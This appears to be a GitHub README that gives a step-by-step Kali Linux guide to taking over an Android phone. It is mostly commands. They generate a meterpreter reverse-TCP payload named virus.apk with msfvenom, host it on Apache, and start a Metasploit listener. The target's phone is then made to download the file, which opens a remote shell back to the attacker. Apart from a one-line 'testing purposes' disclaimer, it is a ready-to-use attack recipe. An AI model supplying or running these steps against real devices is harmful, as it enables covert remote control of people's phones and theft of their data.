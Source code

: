 # How to hack a smarphone with Kali Linux (complete guide)
Kali linux is an OS that is focused on pentesting and ethical hacking. It if totally free and open source. In this guide you will see how you can test to gain acces to a phone with some pentesting tools. ONLY USE THIS FOR TESTING PURPOSES. **There is a file uploaded with all the configuration done. You can download it and just run the msfconsole comands at the end of the guide.**

**More info at https://www.kali.org/**

## 1) Creating the maliciuos file
The first thing that we need to make, is to create a malicious file with the correct parameters as for making a connection between our computer and the affected device.
#### `msfvenom -p android/meterpreter/reverse_tcp LHOST=(ENTER YOUR IP ADRESS WITHOUT THE BRACKETS) LPORT=8080  R> virus.apk`

**You can know th IP adress of your device by entering ```ifconfig```**

## 2) Uploading the file to an apache server.
This method consists in uploading the file to a server that is hosted by the linux machine. You can make shure if it is running by entering this command.

```sudo service apache2 status```

**If you see as an output that it is offline, then turn it on with the following command.**

```sudo service apache2 start```

### 3) Copying the files to the apache online server
Now, we need to copy the malicoius file to the apache directory, in order for making it accesible on the internet.

```scp virus.apk /var/www/html/```

 **Verify if the file has been uploaded with this command**
 
 ```cd /var/www/html/ & ls```
 
 ## 4) Setting up the msfconsole
 
 Now we need to set up a listener in order for capturing any activity signals from a victim. In order to do so, enter the following commands.
 
 **Start the console** ```msfconsole```
 
 **Start the multi handler** ```use multi/handler```
 
 **Set the payload** ```set PAYLOAD android/meterpreter/reverse_tcp```
 
 **Set the Host IP** ```set LHOST (THE IP ADRESS USED BEFORE WITHOUT THE BRACKETS)```
 
 **Set the port** ```set LPORT 8080```
 
 **Start the process!** ``exploit``
 
 ## 5) Downloading the malicous file in the target device.
 
 Open the phones browser, and type the ip adress as you did before followed by this ```/virus.apk```
 
 **The link should look something like this; 192.168.0.152/virus.apk**

## **The process is finally done. You can now try atacking the phone with the console. Type ```help``` to list all the commands aviable. Enjoy! :D**

